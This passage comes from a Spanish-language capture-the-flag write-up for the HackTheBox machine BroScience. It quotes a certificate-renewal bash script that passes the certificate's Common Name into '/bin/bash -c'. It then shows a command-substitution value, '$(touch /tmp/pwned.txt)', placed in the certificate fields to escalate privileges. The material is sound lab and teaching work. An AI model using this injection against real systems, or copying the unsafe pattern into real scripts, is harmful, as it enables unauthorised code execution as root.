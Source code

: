 ```bash

    echo $subject;
    echo "";
    echo "Country     => $country";
    echo "State       => $state";
    echo "Locality    => $locality";
    echo "Org Name    => $organization";
    echo "Org Unit    => $organizationUnit";
    echo "Common Name => $commonName";
    echo "Email       => $emailAddress";

    echo -e "\nGenerating certificate...";
    openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout /tmp/temp.key -out /tmp/temp.crt -days 365 <<<"$country
    $state
    $locality
    $organization
    $organizationUnit
    $commonName
    $emailAddress
    " 2>/dev/null

    /bin/bash -c "mv /tmp/temp.crt /home/bill/Certs/$commonName.crt"
else
    echo "File doesn't exist"
    exit 1;
```

Este escript basicamente checkea si el certificado **broscience.crt** en el directorio /home/bill/Certs va a caducar en menos de un dia o no, si va a caducar te muestra por pantalla información del certificado y te crea uno nuevo, si no, no hace nada.
<br>
La parte crítica está en que tu puedes controlar la información del certificado, es decir, puedes poner en el certificado que tu organizacion es `$(whoami)` y a la hora de correr el programa se ejecutará el `whoami`.

## Generando certificado para escalar privilegios

Dentro del directorio Certs/ generaremos el certificado con el siguiente comando.

```bash
openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout ./broscience.key -out ./broscience.crt -days 1
```

Y añadiremos `$(touch /tmp/pwned.txt)` en todos los campos.

![](/assets/images/HackTheBox/BroScience/pwned.png)
